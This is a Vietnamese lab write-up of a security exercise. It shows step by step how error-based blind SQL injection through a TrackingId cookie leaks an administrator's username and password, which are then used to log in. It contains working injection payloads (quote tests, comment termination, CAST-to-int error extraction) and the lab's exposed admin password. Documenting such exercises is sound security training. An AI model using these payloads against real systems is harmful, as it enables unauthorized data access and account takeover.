







## 🍪 Câu 13: SQL Injection qua Cookie - Blind SQL Injection

### 🎯 Mục tiêu
Khai thác SQL injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator bằng Blind SQL Injection.
<div align="center">
  
  <br>
  <em>Hình 14: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>
### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Sử dụng Burp Suite để bắt gói tin
- 🛠️ Sử dụng Burp Suite để intercept HTTP request
- 🍪 Phát hiện cookie `TrackingId` có thể bị khai thác
- 📡 Bắt gói tin GET request

#### 🔸 Bước 2: Kiểm tra lỗ hổng SQL injection
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 thông báo lỗi SQL
- 🔍 Lỗi do chuỗi SQL chưa được kết thúc đúng cách
- 💡 Truy vấn trở thành: `SELECT * FROM tracking WHERE id = ' ''`
<div align="center">
  
  <br>
  <em>Hình 15: Minh họa kết quả</em>
</div>

#### 🔸 Bước 3: Kết thúc truy vấn SQL
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'--
```

> **📊 Kết quả:**
- ✅ Không còn thông báo lỗi
- ✅ Xác nhận có thể khai thác SQL injection qua cookie
<div align="center">
  
  <br>
  <em>Hình 16: Minh họa kết quả</em>
</div>

#### 🔸 Bước 4: Blind SQL Injection - Kiểm tra cấu trúc
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT 1) AS int)--
```

> **📊 Kết quả:**
- ✅ Truy vấn không có lỗi
- ✅ Xác nhận có thể thực hiện Blind SQL Injection
<div align="center">
  
  <br>
  <em>Hình 17: Minh họa kết quả</em>
</div>

#### 🔸 Bước 5: Lấy tên người dùng đầu tiên
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 lỗi nhưng đây là lỗi mong muốn
- ✅ Hiển thị tên người dùng đầu tiên: **administrator**
- 🎯 Xác nhận người dùng đầu tiên là admin
<div align="center">
  
  <br>
  <em>Hình 18: Minh họa kết quả</em>
</div>

#### 🔸 Bước 6: Lấy mật khẩu của administrator
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện lỗi nhưng chứa thông tin mật khẩu
- ✅ Lấy được mật khẩu: **osu96xzqbyjs9r61c7ou**
<div align="center">
  
  <br>
  <em>Hình 1919: Minh họa kết quả</em>
</div>

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ osu96xzqbyjs9r61c7ou    │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 7: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản administrator đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator
  <div align="center">
  
  <br>
  <em>Hình 20: Minh họa kết quả</em>
</div>

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng Blind SQL Injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator.

> 💡 **Điểm đặc biệt:** Đây là ví dụ về Blind SQL Injection - một kỹ thuật tấn công phức tạp hơn khi không thể thấy kết quả trực tiếp mà phải dựa vào thông báo lỗi để suy luận thông tin.

---
